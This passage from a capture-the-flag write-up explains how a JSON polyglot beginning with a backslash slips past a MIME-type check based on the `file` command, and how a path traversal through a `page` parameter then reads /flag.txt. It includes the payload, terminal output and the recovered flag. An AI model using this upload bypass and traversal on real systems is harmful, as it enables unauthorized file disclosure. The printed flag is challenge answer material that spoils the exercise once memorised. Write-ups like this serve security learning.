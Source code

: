 Previously, I briefly mentioned that the file's **backslash character (`\`) will be replaced by an empty string**. With this, we can leverage this parser differential to bypass the `file`'s MIME type check!

## Exploitation

To do so, we need to make the JSON file's syntax invalid using a `\` character like this:

```json
\{"Aidsc":"bar", "sections": [{"type": "link", "tag": "i", "value": "/flag.txt"}]}
```

```shell
┌[siunam♥Mercury]-(~/ctf/x3CTF-2025/web/mvmcheckers-inc)-[2025.01.27|19:47:26(HKT)]
└> echo -n '\{"Aidsc":"bar", "sections": [{"type": "link", "tag": "i", "value": "/flag.txt"}]}' > image_file
┌[siunam♥Mercury]-(~/ctf/x3CTF-2025/web/mvmcheckers-inc)-[2025.01.27|19:47:31(HKT)]
└> file -b image_file
Apple QuickTime image (fast start)
```

Nice! We can now make it as a valid JSON file on the `rebuild/index.php` side, and as an image file on the `file` command side.

Armed with above information, we can get the flag via:
1. Upload the above polyglot JSON file
2. Using path traversal vulnerability at `rebuild/index.php` to read the included flag file via the `page` GET parameter

To automate the above steps, I've written the following Python solve script:

<details><summary><strong>solve.py</strong></summary></details>

```shell
┌[siunam♥Mercury]-(~/ctf/x3CTF-2025/web/mvmcheckers-inc)-[2025.01.27|20:01:53(HKT)]
└> python3 solve.py
[*] Uploading polyglot JSON file...
[*] Retrieving the flag...
[+] Flag: MVM{c7f5_4r3_4_m461c_pl4c3_4r3n7_7h3y}
```

- **Flag: `MVM{c7f5_4r3_4_m461c_pl4c3_4r3n7_7h3y}`**

## Conclusion

What we've learned:

1. Path traversal and file upload MIME type bypass via parser differential